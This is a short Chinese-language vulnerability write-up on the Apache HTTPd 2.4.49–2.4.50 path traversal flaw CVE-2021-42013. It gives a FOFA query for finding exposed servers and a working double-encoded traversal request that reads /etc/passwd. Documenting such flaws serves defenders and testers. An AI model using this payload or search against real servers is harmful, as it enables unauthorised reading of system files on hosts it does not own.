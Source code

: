 ```yaml
---
title: Apache HTTPd 路径穿越漏洞 CVE-2021-42013 
---
```


# Apache HTTPd 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件 （CVE-2021-41773 的漏洞绕过）

## 漏洞影响

<a-checkbox checked>Apache HTTPd  2.4.49~2.4.50版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## 漏洞复现

通过响应包获取 Apache版本

![img](../../../.vuepress/public/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78-20220308094051147.png)

验证POC

```php
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![img](../../../.vuepress/public/img/1633686079889-61449308-0e08-44e8-8f28-63889158f769-20220308094051256.png)